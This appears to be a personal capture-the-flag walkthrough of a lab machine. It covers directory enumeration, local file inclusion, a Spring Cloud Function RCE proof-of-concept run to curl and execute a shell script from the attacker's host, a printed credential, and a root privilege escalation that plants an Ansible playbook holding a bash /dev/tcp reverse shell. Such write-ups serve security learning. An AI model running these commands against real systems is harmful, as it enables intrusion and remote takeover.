








Gobuster results
/register (Status: 200) [Size: 5654]
/error (Status: 500) [Size: 106]
/upload (Status: 200) [Size: 1857]
/blogs (Status: 200) [Size: 5371]
/environment (Status: 500) [Size: 712]
/release_notes (Status: 200) [Size: 1086]
/show_image (Status: 400) [Size: 194]
Upload directory which accepts only image files. Due to the box name I imagine we can intercept this upload and change the magic bytes to an image file and upload a shell.

The show_image page has lfi

We find a pom.xml file which is for springboot. Reading the file we can see springboot is using version 3.22

springboot 3.22 has an RCE exploit which we download a POC here
https://www.exploit-db.com/exploits/51577

W find creds for phil located at /home/frank/.m2/settings.xml but we cant use them
phil:DocPhillovestoInject123

I tried everything I could to get a shell but I guess I needed to specify the path for it to work properly. I stole this from 0xdf and all he did was specify the tmp path.
python3 51577.py --url http://10.10.11.204:8080/functionRouter --command "curl 10.10.14.20:8000/simpleshell.sh -o /tmp/test.sh"
python3 51577.py --url http://10.10.11.204:8080/functionRouter --command "bash /tmp/test.sh"

Interesting linpeas stuff from phil
/usr/share/bleachbit/cleaners/filezilla.xml
/usr/lib/python3/dist-packages/ansible_collections/junipernetworks/junos/tests/integration/targets/junos_config/templates/basic/config.xml/usr/lib/python3/dist-packages/ansible_collections/community/windows/tests/integration/targets/win_xml/files/config.xml
Nothing good from phil
Linpeas stuff from frank
/etc/nginx/fastcgi_params/usr/share/keyrings
/usr/bin/at ---> RTru64_UNIX_4.0g(CVE-2002-1614)/tmp/hsperfdata_frank/811
pspy stuff
/usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml
/bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
this command seems to run automatically with a wildcard. I think we can exploit it.
I was right, we find a template online for a ansible reverse shell and create a pwn.yml file. The script automatically goes to that directory and runs all .yml files as root so we can have it run our reverse shell and drop a shell as root.
ansible reverse shell template as a .yml file
- hosts: localhost
tasks:
- name: rev
shell: bash -c 'bash -i >& /dev/tcp/10.10.14.20/9999 0>&1'
here I created the script

we wait a couple minutes for the cronjob to run
